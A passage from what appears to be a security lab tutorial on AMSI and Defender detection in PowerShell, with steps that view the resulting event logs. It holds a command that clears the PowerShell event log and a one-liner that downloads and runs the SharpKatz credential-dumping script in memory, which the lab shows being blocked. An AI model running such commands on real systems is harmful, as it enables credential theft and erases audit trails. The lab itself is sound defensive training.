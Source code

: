 The output should be like this :

![image](./images/ps_defsettings.jpg)

Before we start let's clear the powershell event logs, so there's no noise from before in there. You can do this by opening a powershell console and typing the following command:

```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

Now from the same powershell terminal, run SharpKatz from memory with IEX (Invoke Expression)

```Powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
```

We'll see the script won't execute since AMSI intercepted it before executing and has sent it to Defender that scanned it and determined it as malicious:

![image](./images/ps_invokesharkpkatzblocked.jpg)

Let's have a look at the EventViewer logs - open EventViewer, select **"Application and Services Logs"**, **"Microsoft"**,**"Windows"**, **"Powershell"** and finally **"Operational"**.
